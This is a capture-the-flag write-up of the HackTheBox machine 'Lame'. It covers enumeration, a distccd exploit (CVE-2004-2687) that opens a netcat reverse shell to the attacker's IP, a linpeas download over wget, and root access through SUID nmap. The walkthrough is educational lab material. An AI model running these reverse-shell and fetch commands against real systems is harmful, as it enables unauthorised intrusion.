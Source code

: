 # Lame - 10.10.10.3
### Don't forget to check out the Lame.pdf file. To see it in color :)

![Lame_info_card](https://user-images.githubusercontent.com/110210595/187806371-c87c74bd-6111-458a-8cd7-62a899083d09.png)

Started off with a nmap scan `nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3`<br>
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.<br>
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command executionCVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.<br>
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![nmap_scan_pt1](https://user-images.githubusercontent.com/110210595/186279936-8afa6919-9add-4034-bbe4-2829a8d84580.png)

![nmap_scan_pt2](https://user-images.githubusercontent.com/110210595/186279953-2fb886f4-5574-4cb1-b27b-306826c0b9ca.png)

I see that smb is open. 139/445. I run `smbmap -H 10.10.10` and get back some users.

![smbmap_results](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is <em><strong>READ, WRITE</em></strong>. Lets login and see what we can find.<br>
I use `smbclient \\\\10.10.10.3\\tmp` and we get a hit.<br>
I use `ls` to see what we can find. Unfortunately there is nothing here either.<br>
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![smbclient\tmp_results](https://user-images.githubusercontent.com/110210595/186279990-d0c780e7-424c-43e0-b62f-eea7d5ccf836.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running. <em><strong>distccd v1</em></strong><br>
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855<br>
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong><br>
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  `chmod +x CVE-2004-2687.py`<br>
the file is ready to be used. First I started a listener on my attacking machine with `nc -lvnp 9001` and then used the following command<br>
`./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` No good, got errors.<br>
Then I tried. `python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python.<br>
Next up,  `python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` Success, we get a shell!

![proof_of_user_shell](https://user-images.githubusercontent.com/110210595/186280044-7ad463f8-0082-4d42-9e21-3e0b734cc0ed.png)

![COWABUNGA](https://user-images.githubusercontent.com/110210595/186280016-5a9d0378-3c30-4f95-89e0-c68eea7c86d1.png)

Let's upgrade the shell. I used the following.<br>
`python -c 'import pty; pty.spawn("/bin/bash")'` python3 and python2 didn't work.<br>
`export TERM=xterm `<br>
`stty raw -echo && fg`<br>
`enter`<br>
`enter`<br>

We're a normal user daemon. I started off with `sudo -l` but it asked for a password. Let's move on.
I look around a bit and `cd /home` directory and do a `ls` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I use <em><strong>cat user.txt</em></strong> at it and we get out our first flag.

![user_txt](https://user-images.githubusercontent.com/110210595/186280050-4c2d9a7e-9b61-4b18-9d51-f14d3659c34f.png)

![Mikey_being_a_savage](https://user-images.githubusercontent.com/110210595/186280056-9b22e873-4987-4845-8417-ec2a8581c9ab.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh<br>
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.<br>
I use `python3 -m http.server 80` to get the server up and running.<br>
On the victim machine ill be in the <em><strong>/tmp</em></strong> directory and use 'wget://10.10.14.10/linpeas.sh' which is my attacking machines ip from HackTheBox. 
The file gets transferred over no problem. I use `chmod +x linpeas.sh` making it an executable file.<br>
I use `./linpeas.sh` and it runs no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![exploit_suggester_results_pt-1](https://user-images.githubusercontent.com/110210595/186280090-9325ff31-2274-4c8b-a279-f6133ef3a11b.png)

![exploit_suggester_results_pt-2](https://user-images.githubusercontent.com/110210595/186280109-1ba8b1b6-6a8c-43ec-87f5-d5e0b7eac263.png)

![exploit_suggester_results_pt-3](https://user-images.githubusercontent.com/110210595/186280119-1ee8d359-4e1a-4a25-8040-728189330987.png)

<em><strong>/usr/bin/nmap suid</em></strong><br>
I head over to https://gtfobins.github.io/ and search for <em><strong>nmap</em></strong><br>
I 'cd /usr/bin' where the suid is located.<br>
I start off with shell code (a) and nothing happened. So I keep going down the list.<br>
Shell (b) worked!

![gtfo_bin_exploit](https://user-images.githubusercontent.com/110210595/186280127-2e9c0379-cf61-4a2b-960e-fdb45b73c42a.png)

we can now 'cd /root' and see what is there which is the <em><strong>root.txt</em></strong>flag!<br>
we have successfully rooted this box!

![root.txt](https://user-images.githubusercontent.com/110210595/186280195-f349b931-70e6-47ae-ba72-77eb1769c8f0.png)

https://user-images.githubusercontent.com/110210595/187824599-0061a62c-4855-4f82-826b-31f863f9a6b4.MOV
